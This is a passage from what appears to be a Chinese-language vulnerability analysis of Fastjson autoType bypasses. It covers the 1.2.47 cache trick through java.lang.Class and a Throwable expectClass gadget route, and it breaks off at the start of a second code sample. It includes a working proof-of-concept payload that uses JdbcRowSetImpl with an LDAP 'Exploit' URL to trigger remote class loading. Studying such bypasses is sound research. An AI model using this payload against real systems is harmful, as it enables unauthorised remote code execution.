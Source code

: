     ```
    public static Class<?> loadClass(String className, ClassLoader classLoader) {
          return loadClass(className, classLoader, true);
      }
    
    
    ```
    
    之后继续寻找调用了该重载的地方，发现在 MiscCode 处有调用：  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112144-dcf63d04-a319-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422112144-dcf63d04-a319-1.png)
    
    ```
    if (clazz == Class.class) {
              return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
          }
    
    
    ```
    
    上面的逻辑是当 class 是一个 java.lang.Class 类时，会去加载指定类 (从而也就无意之间加入了 mappings 缓存)，而 java.lang.Class 同时也是个默认特殊类——deserializers.findClass 指定类，可以直接反序列化，所以可以首先通过反序列化 java.lang.Class 指定恶意类，然后恶意类被加入 mappings 缓存后，第二次就可以直接从缓存中获取到恶意类，并进行反序列化：  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112214-ef3dd5c6-a319-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422112214-ef3dd5c6-a319-1.png)  
    1.2.47 的有效载荷如下：  
    ```java  
    package com.FastJson1242;
    

import com.alibaba.fastjson.JSONObject;

public class Poc {  
public static void main(String[] argv){  
String payload ="{\n" +  
"\"a\": {\n" +  
"\"@type\": \"java.lang.Class\", \n" +  
"\"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +  
"}, \n" +  
"\"b\": {\n" +  
"\"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \n" +  
"\"dataSourceName\": \"ldap://localhost:1099/Exploit\", \n" +  
"\"autoCommit\": true\n" +  
"}\n" +  
"}";  
JSONObject.parseObject(payload);  
}  
}

```
执行结果如下：
![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112304-0cd4c6c6-a31a-1.jpg)
### exceptClass期望类
#### ThrowableDeserializer
期望类的功能主要是实现/继承了期望类的class能被反序列化出来且不受autotype影响，默认情况下exceptClass这个参数是空的，也就不存在期望类的特性，之后全局搜索checkAutoType的调用，且条件是exceptClass不为空：
![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112407-323ec394-a31a-1.jpg)
从上面的搜索结果中可以看到在JavaBeanDeserializer、ThrowableDeserializer中调用了checkAutoType并且exceptClass不为空，我们这里先来看一下ThrowableDeserializer，该类主要是对Throwable异常类进行反序列化，我们可以在ParserConfig.getDeserializer中找到对应的反序列化示例类型：
com\alibaba\fastjson\1.2.68\fastjson-1.2.68-sources.jar!\com\alibaba\fastjson\parser\ParserConfig.java 826
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20210422112428-3f01e156-a31a-1.png)
![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112454-4e6cbb7a-a31a-1.jpg)
可以从上面看到ThrowableDeserializer是Throwable用来反序列化异常类的，我们先来看一下ThrowableDeserializer，可以看到在ThrowableDeserializer中可以根据第二个@type的值来获取具体类，并且根据传入的指定期望类进行加载：
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20210422112528-62a5f034-a31a-1.png)
因此可以反序列化继承自Throwable的异常类，在这里我们可以借助setter、getter等方法的自动调用，来挖掘gadget，下面是浅蓝师提供的一个Gadget：
```java
package org.heptagram.fastjson;
```